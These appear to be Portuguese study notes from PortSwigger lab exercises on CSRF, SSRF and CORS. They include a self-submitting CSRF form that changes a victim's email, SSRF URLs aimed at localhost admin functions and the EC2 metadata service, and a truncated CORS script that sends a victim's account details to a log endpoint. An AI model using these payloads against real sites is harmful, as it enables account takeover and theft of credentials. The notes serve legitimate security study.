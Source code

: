       * O cross-site request forgery, em português falsificação de solicitação entre sites, também conhecido como ataque de um clique ou montagem de sessão, é um tipo de exploit malicioso de um website, no qual comandos não autorizados são transmitidos a partir de um usuário em quem a aplicação web confia.
      * Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.
      https://security.love/CSRF-PoC-Genorator/ => colete essas informações no proxy do Burp Suite, você irá criar um arquivo eu deverá cadastrar um usuário de sua escolha (por exemplo) usando o header http
      ! No lab 1 de CSRF usamos o script: <html> <body> <form enctype="application/x-www-form-urlencoded" action="https://0a0600c3030c116bc0fe0af000d800af.web-security-academy.net/my-account" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit();</script></body> </html>

#Server-side_request_forgery:
      * In computer security, server-side request forgery (SSRF) is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.
      ! https://192.168.100.167/mutillidae/index.php?page=https://localhost/ => aqui pela URL conseguimos retornar o localhost do servidor a partir da minha máquina, confirando assim um SSRF
      ! http://localhost/admin/delete?username=carlos
      ! Tendo como exemplo o provedor de nuvem AWS, é bastante comum de se ver aplicações hospedadas em um Amazon Elastic Compute Cloud (Amazon EC2) e, com isso, atacantes acabam obtendo um meio de acessar credenciais de metadados de máquinas EC2 por meio do SSRF.
        No exemplo descrito na página Hacking The Cloud, é possível ver que a maioria das instâncias do EC2 possuem acesso ao serviço de metadados que contém informações, como endereço IP da instância, credenciais das IAM roles e o nome do security group e, esse acesso é feito por meio do endereço de IP 169.254.169.254.
        https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
#CORS (Cross-origin resource sharing):
      * O CORS é uma política do HTTP de controle de compartilhamento de recursos entre sites, decidindo que origens serão aceitas ou rejeitadas. Resumidamente, temos o lado do cliente (por exemplo, o domínio do Github) que fará uma requisição para uma API (por exemplo, uma API do GitHub). Quando o compartilhamento de recursos é autorizado, costumamos ver no header "Access-Control-Allow-Origin:" seguido do domínio autorizado. Assim, a API determina que a origem é segura e a resposta é enviada com os recursos compartilhados. 
      ! Podemos executar um ataque do tipo CORS criando um exploit, ou script, que use CORS para obter algum dado do usuário que acessá-lo. Sendo tudo isso por meio de uma Engenharia Social, onde o(a) atacante pode elaborar um email ou outra artimanha que induzirá algum alvo acessar o exploit.

Lab 1 de CORS da PortSwigger:

Com isso, simulamos a construção de um script, ou exploit, que assim que o usuário acessar, por meio dos logs conseguimos ver sua API key por estar aberta a compartilhamento entre sites pela configuração falha do CORS.

```
<html>
<body>
<script>
   var xhrequest = new XMLHttpRequest();
   // Preencha com a URL do seu laboratorio aqui:
   var url = "https://0abe00ef04a17ad3c0102ceb00270080.web-security-academy.net"

   xhrequest.open('GET', url + "/accountDetails", true);
   xhrequest.withCredentials = true;
   xhrequest.send(null)

   xhrequest.onreadystatechange = function() {
       if (xhrequest.readyState == XMLHttpRequest.DONE){
           fetch("/log?key=" + xhrequest.responseText)
```